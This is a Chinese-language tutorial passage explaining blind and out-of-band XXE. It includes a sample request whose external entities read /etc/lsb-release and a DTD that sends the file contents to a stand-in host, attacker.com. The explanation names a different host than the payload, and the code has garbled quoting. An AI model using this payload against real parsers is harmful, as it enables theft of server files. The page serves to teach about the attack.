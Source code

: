 ```yaml
---
title: Blind XXE 与 OOB-XXE
id: zhfly3591
---
```


### Blind XXE 与 OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

<!ENTITY % file SYSTEM

“file:///etc/lsb-release”>

<!ENTITY % dtd SYSTEM

“[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)”>

%dtd;

]>

<data>&send;</data>` 
```

攻击者DTD

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all; 
```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://www.0-sec.org/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://www.0-sec.org/?collect=DISTRIB_ID=Ubuntu …）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。